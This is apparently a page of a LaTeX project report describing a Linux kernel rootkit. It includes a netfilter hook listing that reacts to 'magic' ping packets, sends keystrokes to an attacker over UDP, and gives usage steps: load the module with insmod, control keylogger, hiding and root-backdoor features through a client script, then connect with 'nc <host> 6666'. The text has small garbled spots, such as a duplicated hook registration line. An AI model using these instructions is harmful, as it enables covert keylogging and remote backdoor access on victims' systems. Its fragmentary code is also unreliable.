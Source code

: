 \documentclass[12pt]{article}
\newcommand{\shellcmd}[1]{\\\indent\indent\texttt{\footnotesize\ #1}\\}
\newcommand{\shellcmdinline}[1]{\texttt{\footnotesize #1}}
\begin{document}
To intercept the packets a new \lstinline{netfilter_hook} is added with the netfilter library, see Listing \ref{netfilter}. 
\begin{lstlisting}[caption=Netfilter Hook, label=netfilter]
#include <linux/netfilter.h>
#include <linux/netfilter_ipv4.h>

static struct nf_hook_ops netfilter_hook;


netfilter_hook.hook = (nf_hookfn*) filter_magic_packets;
netfilter_hook.hooknum = 0;
netfilter_hook.pf = PF_INET;
netfilter_hook.priority = 1;

nf_register_hook(&netfilter_hook);
nf_register_hook(&netfilter_hook);


\end{lstlisting}

The netfilter hook catches all IP packets. To get ping packets only the icmp packets are unpacked form the IP messages. For the evaluation only packets with the already defined properties are used (id==code).

\subsubsection{UPD Sockets}
To send the keys to the attacker UPD datagram packets are used.

\newpage
\section{Usage}
\label{sec:usage}
This section describes how to setup the rootkit and how to use the client application.

\subsection{Rootkit}
The rootkit can be build via \shellcmdinline{make}. To install it execute \shellcmdinline{insmod rootkit.ko} as root user.

\subsection{Client}
The to start one of the possible operation on our infected system use \shellcmd{rootkit\_client.py~-[a,d]~<feature-key>~-h~<host>} Three different features can be controlled via the feature-keys \emph{key} (keylogger), \emph{hide} (hide the kernel module) and \emph{root} (backdoor/root access). To activate a feature use the option \shellcmdinline{-a} and \shellcmdinline{-d} to deactivate a feature. The root feature is the only feature that has no deactivation because it can be easily be done via the shell itself. The root feature only starts the backdoor on a certain host. To connect to it use the usual suspects e.g. \shellcmdinline\shellcmdinline{nc <host> 6666}.
\end{document}
